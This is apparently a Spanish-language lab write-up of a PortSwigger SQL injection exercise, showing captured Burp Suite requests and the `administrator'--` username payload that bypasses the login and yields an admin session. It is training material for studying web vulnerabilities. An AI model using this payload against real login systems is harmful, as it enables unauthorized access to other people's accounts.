



# 🧪 Write-up: SQL Injection - PortSwigger Lab 2 (Login Bypass)

## 📌 Descripción del laboratorio (Traducción)

This lab contains a SQL injection vulnerability in the login function.

➡️ Este laboratorio contiene una vulnerabilidad de inyección SQL en la función de login.

To solve the lab, perform a SQL injection attack that logs in to the application as the administrator user.

➡️ Para resolver el laboratorio, realiza un ataque de inyección SQL que permita iniciar sesión en la aplicación como el usuario administrador.

---

## 🌐 Acceso al laboratorio

Le damos a abrir lab y nos abre una página con la url:

https://0a5d00120380b81380ac494d000500e9.web-security-academy.net/

---

## 🛠️ Preparación del entorno

Una vez dentro, abrimos burpsuitepro y en el navegador activamos el FoxyProxy para que en el HTTP History vayan apareciendo las distintas Requests mientras navegamos por la página.

---

## 🔐 Panel de login

Como ya nos da pistas la descripción del laboratorio, nos vamos a ir a My account, el cual es un panel de login. Como el de la imagen 1



---

## 🧪 Prueba inicial

Vamos a meter cadenas aleatorias en ambos campos Username y Password para ver como es el login e interceptar la petición.

---

## 📡 Captura de petición

Vemos en burpsuite un POST hecho al login y lo enviamos a Repeater (Send to Repeater).

Esta es la petición:

```http
POST /login HTTP/2
Host: 0a5d00120380b81380ac494d000500e9.web-security-academy.net
Cookie: session=9WGzGiJAFe2tTq2ivepYTfxDW8IGaTFv
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:140.0) Gecko/20100101 Firefox/140.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 69
Origin: https://0a5d00120380b81380ac494d000500e9.web-security-academy.net
Referer: https://0a5d00120380b81380ac494d000500e9.web-security-academy.net/login
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers

csrf=exdV5nWuRI4fDRSiFDUvi1FcC3HD53Mp&username=jdjsjd&password=kssksk
```

---

## 📥 Response

Le damos a send para ver la Response:

```http
HTTP/2 200 OK
Content-Type: text/html; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 3331

<!DOCTYPE html>
<html>
...
<p class=is-warning>Invalid username or password.</p>
...
</html>
```

---

## ❌ Resultado

Es decir no nos loguea y nos devuelve la imagen 2 con error 



---

## 💥 Ataque de SQL Injection (Login Bypass)

Pero sabemos que existe un usuario administrator y si ponemos esto:

```
administrator'--
```

en el parámetro username nos saltamos la comprobación del password:

```
username=administrator'--&password=kssksk
```

---

## 📡 Response exitosa

Nos devuelve:

```http
HTTP/2 302 Found
Location: /my-account?id=administrator
Set-Cookie: session=Dl06MmQLwqnLywIRe6Jo5YVLNglQ4cck; Secure; HttpOnly; SameSite=None
X-Frame-Options: SAMEORIGIN
Content-Length: 0
```

---

## ✅ Resultado final

Y hemos resuelto el laboratorio  
imagen 3



---

## ⚠️ Problema con CSRF

Una curiosidad: nos ha dado problemas de =>

"Invalid CSRF token (session does not contain a CSRF token)"

Si estás haciendo un laboratorio (como PortSwigger) o usando Burp:

Este error suele ocurrir porque la sesión ha expirado o porque Burp Suite está enviando una petición "vieja" que ya no tiene un token válido asociado en el servidor.

### 🔧 Solución:

- Refresca la página en el navegador: Esto generará un nuevo token y una nueva cookie de sesión.
- Captura la petición de nuevo: No uses una petición del "HTTP History" de hace 20 minutos. Ve a la web, realiza la acción otra vez y envía la nueva petición al Repeater.
- Verifica el orden de las pestañas: Si estás probando un login, asegúrate de que primero cargas la página de login (GET) para que el servidor te entregue el token, y luego envías el POST.

---

## 🏁 Conclusión

Este laboratorio demuestra:

- SQL Injection en formularios de login
- Bypass de autenticación
- Uso de comentarios SQL (`--`)
- Importancia de los tokens CSRF

👉 Lección clave: **Si el backend concatena directamente los inputs en una query SQL, puedes romper completamente la lógica de autenticación.**

